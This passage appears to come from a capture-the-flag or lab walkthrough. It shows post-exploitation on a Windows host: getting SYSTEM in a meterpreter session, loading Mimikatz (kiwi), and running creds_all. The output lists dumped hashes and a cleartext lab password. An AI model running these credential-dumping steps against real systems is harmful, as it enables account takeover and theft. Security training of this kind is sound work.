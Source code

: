 We are now NT AUTHORITY\SYSTEM!

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

3. Now, we will load Mimikatz (very useful password dumping tool)

```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > 
```

4. Gather all credentials.

```
We will use creds_all to grab all credentials
```

Here they are!

```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)

```